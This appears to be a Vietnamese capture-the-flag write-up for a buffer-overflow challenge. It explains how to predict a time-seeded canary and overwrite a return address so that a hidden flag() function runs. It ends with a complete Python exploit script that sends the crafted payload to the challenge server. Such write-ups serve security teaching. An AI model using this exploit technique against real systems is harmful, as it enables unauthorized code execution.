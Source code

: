 ### PWN
> `nc 203.162.88.114 44444`
[Binary and Source](https://github.com/bigbearattt/PTITCTF/raw/master/pwn/src.zip)

### Solve

Nhìn vào source code C thì t thấy có hàm `flag()` là in ra flag mà luồng thực thi của chương trình không hè có luồng nào chạy đến hàm này.
Chính vì thế có thể đoán được là t phải Overflow để tràn đến địa chỉ hàm flag.
![](pwn1.png)
Địa chỉ của hàm `flag()` t sử dụng `IDA Pro` để xem thì có là `66666835`
![](pwn8.png)
Nhìn qua `cấu trúc dữ liệu của biến` và một vài `biến toàn cục`:
![](pnw2.png)
Với dữ liệu nêu trên thì ta thấy trong luồng có 2 hàm sử dụng các hàm `read()` là có thể sử dụng để overflow là `signup()` và `signin()`
Tuy nhiên `signup()` các hàm `read()` là an toàn vì giá trị tham số thứ 2 bằng với kích thước của biến.
![](pwn3.png)
Còn hàm `signin()` hàm `read()` ở đây có vẻ không an toàn vì độ dài tham số thứ 2 lớn hơn kích thước biến.
![](pwn4.png)
Sử dụng IDA ta có:
![](pwn7.png)
Biến `pas: bp-10Ch` and `use: bp-8Ch` and `canary = bp-Ch`
> =>> qua đó suy ra có thể Overflow hàm `read(0,ME.usn,255);` vì `0x8C = 140`
Tuy nhiên nếu overflow ở đây thì sẽ bị tràn qua giá trị của biến `canary` mà nếu `canary != tmp` thì chương trình sẽ thực hiện `exit(1)`
![](pwn5.png)
> Câu hỏi đặt ra là làm thế nào để overflow mà vẫn có thể giữ lại giá trị cho biến `canary` thế nên ta phải tính được giá trị của `tmp`
![](pwn6.png)
`tmp` được tính bằng hàm `srand()` với `time(NULL)` trong `C`.
Với python ta `import` thư viện của `C` vào: `from ctypes import CDLL` and `libc = CDLL('libc.so.6')`
```py
now = int(floor(time.time()))
tm = ''
libc.srand(now)
c = 0
while c<4:
  ch =  libc.rand()%0x7f
	if ch >0x20 and ch <0x7f:
	  tm += chr(ch)
		c += 1
```
Ngoài ra thì có thể tính toán các giá trị cần gửi lần lượt là như sau:
```
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent6 = ????
sent7 = "trollpassword\n"
```
Nhiệm vụ là phải tim được `sent6` và với những gì đã có ở trên thì t có thể tính ra được:
```py
sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
```
Sau đây là code hoàn chỉnh:

```py
from math import *
import socket
import time
from ctypes import CDLL
libc = CDLL('libc.so.6')
host = '203.162.88.114'
port = 44444
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent7 = "trollpassword\n"

def re(a):
	a = '0000000'+a.encode('hex')
	a = a[-8:]
	b = ''
	for i in range(4):
		b = a[i*2:i*2+2] + b
	return b.decode('hex')

def pwn():
	sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
	s = socket.socket()
	s.connect((host,port))
	now = int(floor(time.time()))
	tm = ''
	libc.srand(now)
	c = 0
	while c<4:
		ch =  libc.rand()%0x7f
		if ch >0x20 and ch <0x7f:
			tm += chr(ch)
			c += 1
	sent6 = sent6.replace('tmp',tm)
	s.recv(1024)
	s.recv(1024)
	s.send(sent1)
	s.recv(1024)
	s.send(sent2)
	s.recv(1024)
	s.send(sent3)
	s.recv(1024)
	s.send(sent4)
	s.recv(1024)
	s.send(sent5)
	s.recv(1024)
	s.send(sent6)
	s.recv(1024)
	s.send(sent7)
	return s.recv(1024)	

def main():
	while True:
		rs = pwn()
		if "DETECT BOF" in rs:
			continue
		else: 
			print rs
			break

if __name__=="__main__":
	main()
```
